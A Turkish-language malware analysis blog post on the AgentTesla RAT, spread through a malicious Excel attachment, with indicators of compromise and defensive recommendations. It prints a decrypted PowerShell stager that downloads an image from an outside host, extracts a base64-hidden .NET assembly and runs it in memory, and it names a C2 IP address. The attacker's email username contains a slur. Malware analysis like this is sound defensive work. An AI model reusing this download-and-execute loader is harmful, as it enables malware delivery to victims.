 # AgentTesla Excel Zararlı Yazılımı IoC Çalışması
<p>
    Merhabalar,<br>
    Arkadaşlar bu yazımda sizlerle beraber AgentTesla adlı RAT yazılımını inceleyeceğiz.
</p>

# Disclaimer | Yasal Uyarı
<p>
  Bu blog yazısında sağlanan bilgiler yalnızca eğitim ve bilgilendirme amaçlıdır. <b>Bilgisayar korsanlığı, siber saldırılar veya bilgisayar sistemlerine, ağlara veya verilere herhangi bir şekilde yetkisiz erişim de dahil olmak üzere herhangi bir yasa dışı veya etik olmayan faaliyeti</b> teşvik etme veya reklam etme amacı taşımaz.
<br><br>
  Disclaimer: The information provided in this blog post is intended for educational and informational purposes only. It is not intended to encourage or promote any illegal or unethical activities, including hacking, cyberattacks, or any form of unauthorized access to computer systems, networks or data.
</p>

## Yayılış Biçimi
<p>
    Virüs genel olarak e-mail ortamında ve e-maillere ek olarak eklenmiş dosyalarda yayıldığını görmekteyiz. Ek dosyayı açtığınızda çalışmaktadır.
    <br><br>
    <img src="harmful_mail_example.png" />
    <br><br>
</p>

## Çalışma Mantığı
<p>
    Zararlı yazılımın çalışma mantığını ifşa etmek amacıyla çalışmalarda zararlı Excel dosyasının (Dosya Adı: Order_HR WJO-29-09_1.xlam.xlsx) içerisindeki "makro" olarak bilinen Visual Basic kodları yardımıyla "79.110.48.52" IP adresli bir makinaya dosya indirme isteği gönderdiğini gözlemliyoruz.
    <br>
    IP adresine direkt olarak HTTP portu üzerinden bağlandığımızda bizi IIS ekranı karşılamaktadır. Buradan server üzerinde Windows OS işletim sisteminin çalıştığını görmekteyiz.
    <br><br>
    <img src="c2_server.png" />
    <br><br>
    IP adresli makina ve makro kodları üzerinde yaptığım çalışmalarda IP adresinde "ngown.vbs" ve "ngohms.txt" adlı iki dosyaya rast geldim.
    <br>
    Öncelikle "ngown.vbs" adlı dosyayı incelediğimizde karşımıza bazı Windows komutları çıkmakta ve bu komutlarla hedef cihaz hakkında Ağ Cihazları bilgileri, WCN dosya bilgileri, Güvenlik Duvarı bilgileri ve Ağ Keşfi gibi pek çok bilgiyi edinmeye çalıştığı görülmüştür.
    <br><br>
    <img src="vbs_file.png" />
    <br><br>
    Bahsi geçen sunucu üzerinden CVE 2017-11882 ve/veya CVE-2018-0802 zafiyetini sömürmeyi sağlayan "ngohms.txt" kodu çağırılmaktadır. Zafiyetin kaynağı olan "EQNEDT32.EXE" adlı Office dosyası çalışmaya başlar ve zafiyet sömürülerek sonraki aşamaya geçilir. 
    <br><br>
    <img src="txt_file.png" />
    <br><br>
    Bu kod ile sistem içerisinde tamamen gizlenerek Anti-Virüs programlarından tamamen gizlenebilmektedir. "ngohms.txt" adlı veri dosyasını dosyasını tamamen dekripte ettiğimizde ise ortaya çıkan kod ise şöyledir,
    <br><br>
    <code>
    $imageurl = "https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg"
    $webclient = new-object system.net.webclient
    $imagebytes = $webclient.downloaddata("https://uploaddeimagens.com.br/*****/004/616/609/original/*****.jpg")
    $imagetext = ([system.text.encoding]::ascii).getstring($imagebytes)
    $startflag = "<>"
    $endflag = "<>"
    $startindex = $imagetext.indexof("<>")
    $endindex = $imagetext.indexof("<>")
    $startindex -ge 0 -and $endindex -gt $startindex
    $startindex = $startflag.length
    $base64length = $endindex - $startindex
    $base64command = $imagetext.substring($startindex, $base64length)
    $commandbytes = [system.convert]::frombase64string($base64command)
    $loadedassembly = [system.reflection.assembly]::load($commandbytes)
    $type = $loadedassembly.gettype("Fiber.Home")
    $method = ($type.getmethod("VAI")).invoke($null, [object[]]"txt.smhogn/25.84.011.97//:ptth", "dfdfd", "dfdf", "dfdf", "dadsa", "de", "cu")
    </code>
    <br><br>
    IoC testimiz devam ederken bu kod parçası yardımıyla "uploaddeimagens.com.br" web sitesinden JPEG dosyası formatında görünen bir virüs olduğunu görüyoruz. Burada resmi incelemeye başlıyoruz
    <br><br>
    <img src="harmful_img.png" />
    <br><br>
    Masumane bir resim gibi görünüyor fakat içerisindeki string verileri maalesef öyle değil. Resmin içeriğini incelediğimizde asıl gerçeği görmekteyiz. Resim içeriğinin başında bildiğimiz resim verileri varken sonunda bir BASE64 şifreleme algoritması ile şifrelenmiş veri görmekteyiz.
    <br><br>
    <img src="harmful_img_b64.png" />
    <br><br>
    Base64 kodunu da dekripte ettiğimizde ise karşımıza çıkan bir EXE dosyasının BASE64 şeklinde dosya içeriğine gizlendiğini görmekteyiz.
    <br><br>
    <img src="b64_decrypt.png" />
    <br><br>
    Bu kodun EXE içeriğini de incelediğimizde "RegAsm.exe" adlı yazılıma ait olduğunu buluyoruz. Fakat bu yazılımın çalıştıktan sonra bir HID (Donanım) olarak algılanmak için bir sürücü indirdiğini fark ediyoruz. Bu sayede kendisini bilgisayara bağlı bir donanım olarak göstererek çalışmaya devam edecek.
    <br><br>
    <pre>http://********.com/******/dstrootcax3.p7c</pre>
    <br><br>
    Bu aşamada virüsün çalışma aşamaları bitti. Bu aşamadan itibaren zararlı yazılımın sahibine haber verip vermediğini araştırmaya başladım.
    <br>
    RegAsm.exe üzerinde yaptığım ek çalışmalarda da istediğime ulaşarak mail sunucusu üzerinden sahibine haber verdiğini fark ettim.
    <br>
    <pre>
    Host : mail.********.***
    Username : niggabown20thsept@worlorderbillions.top
    </pre>
</p>

## Çözüm Önerisi
<ul>
    <li>Virüs koruma yazılımlarını güncel tutmak</li>
    <li>SPAMHaus tarafından tutulan zararlı mail listelerini güncellemek</li>
    <li>Bahsi geçen "79.110.48.52" IP adresini güvenlik duvarı yazılımlarından engellemek</li>
    <li>VBS dosyalarının açılmasını Domain Controller üzerinden engellemek</li>
    <li>Excel makrolarını kapalı tutmak</li>
    <li>Kurumsal düzeyde bilinmeyen mail adreslerinden gelen dosyaların AÇILMAMASI gerektiğini personellere anlatmak</li>
</ul>

# Yazar | Author 
<p>
  Ali Can GÖNÜLLÜ<br>
  Siber Güvenlik Uzmanı - alicangonullu[at]yahoo.com
</p>